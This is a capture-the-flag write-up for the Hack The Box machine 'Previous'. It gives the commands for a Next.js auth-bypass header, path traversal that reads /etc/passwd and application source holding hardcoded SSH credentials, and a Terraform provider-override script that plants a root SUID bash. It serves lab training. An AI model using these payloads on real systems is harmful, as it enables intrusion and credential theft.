




# Hack The Box - Previous



Hello guys, I'll be walking you through the attack vectors and findings for the retired box **Previous**. This machine starts with a Next.js authentication bypass that reveals source code and credentials, then moves into a local file read that leaks the SSH login for `jeremy`. From there, a Terraform provider override is abused to execute a malicious provider as root and obtain the final shell.

## Reconnaissance

I started with a full port scan to see what services were exposed on the target.

```bash
nmap -sS -A -p- -o nmap 10.10.11.x
```

The scan showed SSH and a web server:

```text
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

The web service redirected to `previous.htb`, so I added that domain to my `/etc/hosts` file before continuing.

## Initial Access



Browsing to port 80 showed a site called **PreviousJS**, a playful reference to Next.js. The **Get Started** and **Docs** links were hidden behind authentication, so I first looked at the request flow and noticed a `next-auth.csrf-token` cookie.



Searching for known issues in NextAuth led me to [CVE-2025-29927], an authentication bypass that can be triggered by adding a recursive middleware header.

### Header Bypass

The header value looked like this:

```text
x-middleware-subrequest:middleware:middleware:middleware:middleware:middleware
```

I used Burp Suite to add that header automatically to my requests through the proxy settings. Once that was in place, I could access `/docs` without logging in.

Inside the docs, I found two posts. One of them included a download link that pointed to an API endpoint:

```text
http://previous.htb/api/download?example=hello-world.ts
```

Since the file name was passed as a GET parameter, I tested for path traversal by requesting `/etc/passwd`. That worked, confirming the endpoint was vulnerable.



I also fetched `/proc/self/environ`, which exposed the `NODE_VERSION` and confirmed the application was running in the context of the `nextjs` user.

The presence of `/.dockerenv` and the generated hostname showed the app was inside a Docker container, so I focused on the application source. The Next.js authentication file was not directly reachable by a simple path, but since built Next.js apps store output in `.next`, I accessed:

```text
../proc/self/cwd/.next/server/pages/api/auth/[...nextauth].js
```

That returned the authentication code and, more importantly, the hardcoded credentials:

```text
jeremy : MyNameIsJeremyAndILovePancakes
```

With those credentials, I logged in over SSH and obtained the first flag.

## Privilege Escalation

The user `jeremy` could run a specific Terraform command as root. Checking sudo permissions showed that only one command was allowed:

```bash
sudo -l
```

```text
(root) /usr/bin/terraform -chdir=/opt/examples apply
```

Running it produced a warning about a provider development override. That was the critical clue.

### Terraform Override

The configuration in `.terraformrc` pointed the provider override to:

```text
previous.htb/terraform/examples = /usr/local/go/bin
```

Since that directory was writable, I changed the override path to `/dev/shm`. Terraform then tried to load a provider binary named `terraform-provider-examples`, which meant I could place my own executable there and have it run as root.

I created a script that copied `/bin/bash` to `jeremy`’s home directory and set the SUID bit on it.

```bash
cat << EOF > /dev/shm/terraform-provider-examples
#!/usr/bin/env bash
cp /bin/bash /home/jeremy/priv
chmod u+s /home/jeremy/priv
EOF
chmod +x /dev/shm/terraform-provider-examples
```

Then I ran the Terraform command again:

```bash
sudo /usr/bin/terraform -chdir=/opt/examples apply
```

This time the malicious provider executed, and the SUID bash binary was created successfully.

```bash
ls -la /home/jeremy/priv
```

```text
-rwsr-xr-x 1 root root 1396520 Nov 15 12:21 /home/jeremy/priv
```

With that in place, I launched the binary with `-p` and got a root shell.

```bash
/home/jeremy/priv -p
```

## Attack Path

- **Scan the host** — identify SSH and HTTP.
- **Bypass Next.js auth** — use [CVE-2025-29927] with the recursive middleware header.
- **Access protected docs** — reach the authenticated pages without valid credentials.
- **Exploit file download** — use path traversal against `/api/download`.
- **Read process data** — inspect `/proc/self/environ` to confirm the runtime context.
- **Recover source code** — read the built Next.js auth file from `.next`.
- **Steal credentials** — recover `jeremy`’s SSH password from the source.
- **Log in as jeremy** — connect over SSH.
- **Inspect sudo rights** — find the Terraform apply command.
- **Abuse provider overrides** — redirect the provider path to a writable directory.
- **Drop a malicious provider** — create `terraform-provider-examples` to run as root.
- **Set SUID on bash** — copy `/bin/bash` and mark it setuid.
- **Escalate to root** — run the SUID binary with `-p` and read the final flag.
